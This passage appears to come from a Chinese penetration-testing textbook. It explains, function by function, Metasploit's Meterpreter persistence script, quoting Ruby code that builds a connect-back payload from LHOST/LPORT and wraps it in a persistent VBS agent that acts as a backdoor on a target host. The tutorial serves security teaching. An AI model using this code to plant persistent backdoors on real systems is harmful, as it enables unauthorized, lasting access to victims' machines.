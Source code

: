 脚本的下一部分包括必须与脚本一起传递的不同参数（标志）。具有`true`值的参数是必须的标志，其值必须由渗透测试人员传递。具有`false`值的参数是可选的。

```
# Usage Message Function
#-------------------------------------------------------------------------------
def usage
print_line "Meterpreter Script for creating a persistent backdoor on a target host."
print_line(@exec_opts.usage)
raise Rex::Script::Completed
end
# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
print_error("#{meter} version of Meterpreter is not supported with this Script!")
raise Rex::Script::Completed
end 
```

脚本的下一部分包括函数声明。前两个函数通常在所有 meterpreter 脚本中都可用。使用函数用于显示脚本的介绍性消息。它包含有关脚本用途的简短描述。`wrong_meter_version()`用于验证脚本是否支持 meterpreter 版本。一些脚本不支持较旧的 meterpreter 版本，因此验证可能会有所帮助。

```
# Function for Creating the Payload
#-------------------------------------------------------------------------------
def create_payload(payload_type,lhost,lport)
print_status("Creating Payload=#{payload_type} LHOST=#{lhost} LPORT=#{lport}")
payload = payload_type
pay = client.framework.payloads.create(payload)
pay.datastore['LHOST'] = lhost
pay.datastore['LPORT'] = lport
return pay.generate
end 
```

下一个函数是用于创建有效载荷的。如果您想创建有效载荷（代码重用的力量），则可以直接在您的脚本中使用此函数。函数`create_payload()`接受两个值，即`payload_type`和`lport`。如果您记得变量声明部分，那么这两个变量已经初始化为一些默认值。

`pay = client.framework.payloads.create(payload)`调用允许我们从 Metasploit 框架中创建有效载荷。

在此片段中需要注意的一件事是`pay.datastore['LHOST'] = lhost`和`pay.datastore['LPORT'] = lport`。数据存储区只是一组值的哈希，可能被模块或框架本身用来引用程序员或用户控制的值。

```
# Function for Creating persistent script
#-------------------------------------------------------------------------------
def create_script(delay,altexe,raw)
if altexe
vbs = ::Msf::Util::EXE.to_win32pe_vbs(@client.framework, raw, {:persist => true, :delay => delay, :template => altexe})
else
vbs = ::Msf::Util::EXE.to_win32pe_vbs(@client.framework, raw, {:persist => true, :delay => delay})
end
print_status("Persistent agent script is #{vbs.length} bytes long")
return vbs
end 
```
